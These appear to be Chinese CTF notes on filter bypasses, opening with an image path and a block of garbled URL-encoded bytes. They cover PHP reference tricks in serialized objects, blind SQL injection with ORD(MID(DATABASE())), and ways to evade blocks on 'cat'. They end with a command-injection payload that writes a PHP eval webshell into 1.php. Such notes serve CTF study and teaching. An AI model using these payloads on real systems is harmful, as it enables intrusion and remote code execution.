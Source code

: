 与

M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2



### uniqid()绕过

uniqid() 函数基于以微秒计的当前时间，生成一个唯一的 ID。

**引用赋值：**PHP 也提供了另外一种方式给变量赋值：引用赋值。这意味着新的变量简单的引用（换言之，“成为其别名” 或者 “指向”）了原始变量。改动新的变量将影响到原始变量，反之亦然。

`<?php
class BUU{
    public $correct = "";
    public $input = "";
}
$chen = new BUU();
$chen->input=&$chen->correct;
$chen = serialize($chen);
echo $chen."<br />";
//O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}`




### substr(),mid()绕过

##### Left()函数

Left()得到字符串左部指定个数的字符

- Left ( string, n ) string为要截取的字符串，n为长度。



##### ORD()函数

此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。

- ORD(MID(DATABASE(),1,1))>114 意为检测database()的第一位ASCII码是否大于114，也即是‘r’



### cat绕过

- 使用less,more,tail,head等代替

- 反斜杠 ： 例如 ca\t fl\ag.php

- 连接符： 例如 ca’‘t fla’'g.txt

- 一句话木马
	构造payload如下：

	```bash
	127.0.0.1 &echo "<?php @eval(\$_POST['shell']);?>" >> 1.php
	```

